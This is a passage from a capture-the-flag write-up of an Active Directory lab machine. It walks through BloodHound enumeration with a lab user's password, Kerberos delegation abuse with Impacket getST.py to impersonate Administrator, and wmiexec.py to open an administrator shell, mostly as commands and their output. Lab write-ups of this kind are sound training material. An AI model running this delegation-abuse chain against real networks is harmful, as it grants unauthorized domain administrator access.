┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/reset/bloodhound2] - [Wed Apr 03, 10:59]
└─[$]> bloodhound-python -d thm.corp -u DARLA_WINTERS -p 'BaphometwasHere420@$' -ns 10.10.197.78 -c all
INFO: Found AD domain: thm.corp
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (haystack.thm.corp:88)] [Errno 110] Connection timed out
INFO: Connecting to LDAP server: haystack.thm.corp
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to GC LDAP server: haystack.thm.corp
INFO: Connecting to LDAP server: haystack.thm.corp
INFO: Found 42 users
INFO: Found 55 groups
INFO: Found 3 gpos
INFO: Found 222 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: HayStack.thm.corp
INFO: Done in 00M 48S
```

After uploading the BloodHound data, we can mark DARLA_WINTERS as owned and start analyzing the database.

An interesting thing that will pop up right away is that Darla has delegating rights.

> In the Active Directory, delegation is a feature that enables specific accounts (user or computer) to impersonate other accounts to access particular services on the network.



### ==Privilege Escalation==

**_==CIFS==_** or Common Internet File System is a file-sharing protocol that is mainly used to provide shared access to all the local systems to the remote files or other services like printing remotely. A CIFS client i.e. any computer of that network can read, write, edit, and even delete files from the remote server. It also can communicate with any server in the network that has been set up to communicate with the CIFS client, there are no restrictions like it will only connect with specific devices that come with it.

Using this right, we can impersonate the **_==Administrator==_** user on the HayStack machine.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/impacket/examples] - [Wed Apr 03, 11:19]
└─[$]> python3 getST.py -k -impersonate Administrator -spn cifs/HayStack.thm.corp thm.corp/DARLA_WINTERS 
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

Password:
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

We were able to get the TGT for the user and successfully impersonated the Administrator user. We can try to run **_==wmiexec==_** and get a shell on the machine as Administrator!

```bash
┌─[abadd0n@EX3CP01S0N] - [~/impacket/examples] - [Wed Apr 03, 11:19]
└─[$]> export KRB5CCNAME=Administrator.ccache
```

```bash
┌─[abadd0n@EX3CP01S0N] - [~/impacket/examples] - [Wed Apr 03, 11:21]
└─[$]> python3 wmiexec.py -k -no-pass Administrator@HayStack.thm.corp
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
thm\administrator

C:\>
```

### ==Conclusion==

This was a hard machine. It took quite a bit to figure out that the MITM attack was the way to get a foothold. After a lot of enumeration, using BloodHound multiple times, and analyzing data, we were finally able to escalate our privileges by impersonating the Administrator using a TGT ticket.
